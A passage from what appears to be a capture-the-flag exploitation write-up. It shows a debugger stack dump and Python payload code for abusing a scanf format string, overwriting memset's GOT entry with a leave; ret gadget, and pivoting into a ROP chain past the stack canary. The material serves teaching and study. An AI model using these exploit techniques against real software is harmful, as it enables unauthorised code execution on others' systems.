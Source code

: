 ```asm
06:0030│ rbp    0x7fffffffe320 ◂— 0x0
07:0038│        0x7fffffffe328 —▸ 0x7ffff7e0fb25 (__libc_start_main+213) ◂— mov    edi, eax
08:0040│        0x7fffffffe330 —▸ 0x7fffffffe418 ◂— 0x0
09:0048│        0x7fffffffe338 ◂— 0x100000064 /* 'd' */
0a:0050│        0x7fffffffe340 —▸ 0x400647 (main) ◂— push   rbp
0b:0058│        0x7fffffffe348 ◂— 0x1000
0c:0060│        0x7fffffffe350 —▸ 0x400730 (__libc_csu_init) ◂— push   r15
0d:0068│        0x7fffffffe358 ◂— 0xf9b4fcb593ba6350
0e:0070│        0x7fffffffe360 —▸ 0x400560 (_start) ◂— xor    ebp, ebp
0f:0078│        0x7fffffffe368 ◂— 0x0
... ↓           2 skipped
12:0090│        0x7fffffffe380 ◂— 0x64b034a55da6350
13:0098│        0x7fffffffe388 ◂— 0x64b1374660e6350
```

Fortunately for us, R8 is pointing at the format string buffer (the one we wrote to using `fgets`).
This is essential as the allotted 8 bytes is extremely restrictive.

Using a format string that allows us to read more than 8 bytes, we can extend the format string
in the middle of the `scanf` call.
This way, `scanf` will continue to process any new conversion specifiers we want.

Our format string looks like this:

```py
fmt = "%4${}c".format(24 + len(ropchain)).encode()
```

which allows us to read exactly the number of characters required for our main payload.

The rest of the payload looks like this:

```py
payload = flat({
    0: fmt,
    0x8: b"%12$p%4c",
    0x10: pack(exe.got['memset']) + ropchain,
    }, filler=b' ')
```

We start by overwriting the format string with itself.
This is not strictly necessary, but can be useful when debugging as the format string appears the
same before and after this write.
It also ensures that your new data doesn't overlap with the original format string, which would
cause `scanf` to ignore part of it.

The next line is our new format string, which is used to set up any reads needed for the primary
ropchain.
This includes overwriting the got entry of `memset`, which we put on the stack, to replace it
with a `leave; ret;` gadget, allowing us to enter our ropchain and avoid the nullptr dereference
and canary.
It also uses the fact that the first argument is set to `obj.buf` to write some format strings
we can use in our ropchain for more `scanf` calls.

```py
overwrites = flat([
    hex(rop.find_gadget(['leave', 'ret'])[0]).encode(),
    b"%2c\x00%16c\x00",
    ])
```
